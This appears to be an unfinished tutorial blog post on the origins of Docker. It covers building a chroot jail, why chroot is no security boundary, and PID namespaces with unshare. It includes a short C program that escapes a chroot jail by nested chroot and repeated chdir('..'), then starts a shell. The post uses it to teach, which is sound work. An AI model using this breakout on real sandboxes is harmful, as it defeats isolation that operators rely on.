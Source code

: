 ```yaml
---
title: "The origins of Docker (a deep dive into containers)"
date: 2023-08-01
tags: ["docker", "linux", "dev"]
author: "François ALLAIS"
draft: false
---
```


# How it was before Docker

## The chroot jails

Back in the days, when trying to "isolate" a process, we used `chroot`, which is a Unix operation that *changes* the apparent *root* directory of a running process and its children (chroot means *change root*).

Let's try a simple exercice to illustrate the way it works.

Start by creating a folder anywhere on your environment and add a simple test file into it :

```bash
mkdir /folder-chroot
echo "Hello World!" > /folder-chroot/hello-world
```

And then run `chroot` on this folder : `chroot /folder-chroot`

You should see this error : `chroot: failed to run command ‘/bin/bash’: No such file or directory`. This is because the new environment you created with chroot is missing bash interpreter.

Let's add it and try again : `mkdir /folder-chroot/bin && cp /bin/bash /folder-chroot/bin/ && chroot /folder-chroot`. Same error... This is because **bash** does not have its dependencies to run correctly.

Let's find the dependencies of bash with the `ldd` tool (ldd stands for *list dynamic dependencies*) :

```bash
ldd /bin/bash
	
linux-vdso.so.1 (0x00007ffc56ea2000)
libtinfo.so.6 => /lib/x86_64-linux-gnu/libtinfo.so.6 (0x00007fe3867ab000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fe386400000)
/lib64/ld-linux-x86-64.so.2 (0x00007fe386955000)
```

Let's copy all these dependecies into the according directories !

```bash
mkdir -p /folder-chroot/lib/x86_64-linux-gnu
mkdir -p /folder-chroot/lib64
cp /lib/x86_64-linux-gnu/libtinfo.so.6 /folder-chroot/lib/x86_64-linux-gnu/
cp /lib/x86_64-linux-gnu/libc.so.6 /folder-chroot/lib/x86_64-linux-gnu/
cp /lib64/ld-linux-x86-64.so.2 /folder-chroot/lib64/
```

Now try to run chroot again, you should this, wouah !

```bash
bash-5.1#
```

But wait, try to run `ls`, you should again have an error.

```bash
bash-5.1# ls
bash: ls: command not found
```

We need to perform the same operation for `ls` by adding its dependencies. Don't forget to leave the chrooted environment with `exit`.

```bash
ldd /bin/ls

linux-vdso.so.1 (0x00007fffb7be3000)
libselinux.so.1 => /lib/x86_64-linux-gnu/libselinux.so.1 (0x00007f2a67e18000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f2a67a00000)
libpcre2-8.so.0 => /lib/x86_64-linux-gnu/libpcre2-8.so.0 (0x00007f2a67d81000)
/lib64/ld-linux-x86-64.so.2 (0x00007f2a67e7f000)
```

In fact we only miss `libpcre2-8.so.0` and `libselinux.so.1`, so let's add them. And the `ls` binary of course.

```bash
cp /bin/ls /folder-chroot/bin/
cp /lib/x86_64-linux-gnu/libpcre2-8.so.0 /folder-chroot/lib/x86_64-linux-gnu/
cp /lib/x86_64-linux-gnu/libselinux.so.1 /folder-chroot/lib/x86_64-linux-gnu/
```

Now go back to the chrooted environement and try to run `ls`. It should work and you will also see your *hello-world* file. Run `pwd` as well to see where you are.

```bash
bash-5.1# ls
bin  lib  lib64  hello-world
bash-5.1# pwd
/
```

You just created your first chroot environment which is called a `chroot jail` ! :)

### What about security ?

We saw that we can create an environment that is called a jail where a process knows only the root directory that we create for it, but sadly this is not enough in terms of security. There is a way to escape from a chroot jail. This is why the official documentation of chroot says that it is not designed for security. If we take a look at the **section 2** of the chroot manual page with this command : `man 2 chroot`

> This call changes an ingredient in the pathname resolution process and does nothing else.  In particular, it is not intended to be used for any kind of security purpose, neither to fully  sandbox  a process  nor  to  restrict  filesystem system calls.  In the past, chroot() has been used by daemons to restrict themselves prior to passing paths supplied by untrusted users to system calls such as open(2).  However, if a folder is moved out of the chroot directory, an attacker can exploit that to get out of the chroot directory as well.  The easiest way to do that is to chdir(2) to the to-be-moved directory, wait for it to be moved out, then open a path like ../../../etc/passwd.

# How to escape a chroot ?

The way to escape of a chroot jail is to ...

Let's write this C program :

```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

int main(void)
{
  // Create the new directory for escaping
  mkdir("escape", 0755);

  // Chroot into it
  chroot("escape");

  // Change dir many time to reach the top
  for(int i = 0; i < 1024; i++) {
    chdir("..");
  }

  // Chroot into that top directory
  chroot(".");

  // Start a shell
  system("/bin/bash");
}
```

## A step forward with namespaces

We walked through the chroot and discovered that it can be useful for creating simple jails, but it is not suitable for security measures. This is why `namespaces` where created in 2008.


Let's try to create a namespace for `bash` with this command : `unshare --pid /bin/bash`.

You will get this error :

```bash
unshare --pid /bin/bash
bash: fork: Cannot allocate memory
```

It is because the [PID 1 exits](https://stackoverflow.com/questions/44666700/unshare-pid-bin-bash-fork-cannot-allocate-memory).

We need to add the `--fork` option in order to tell unshare to fork bash as a child process of `unshare` and give it the `PID 1` (aka the parent process). Let's try it :

```bash
unshare --pid --fork /bin/bash

ps
    PID TTY          TIME CMD
  10657 pts/1    00:00:00 sudo
  10658 pts/1    00:00:00 bash
  88930 pts/1    00:00:00 dbus-launch
 102254 pts/1    00:00:00 unshare
 102255 pts/1    00:00:00 bash
 102262 pts/1    00:00:00 ps
```

Ok it is better, but `bash` does not have the `PID 1`.. And we see some weird processes, that seems to come from the root environment. It is because the `/proc` mount point comes from the root namespace, we need to create a new one, and there is an option for that : `--mount-proc`. Let's try.

```bash
unshare --pid --fork --mount-proc /bin/bash
ps
    PID TTY          TIME CMD
      1 pts/1    00:00:00 bash
      8 pts/1    00:00:00 ps
```

Lovely ! :)  
We are now in an isolated `PID namespace`.

## Cherry on the cake with cgroups

```
NEXT:

Docker -> Docker Engine -> Containerd -> Runc
pivot_root()

```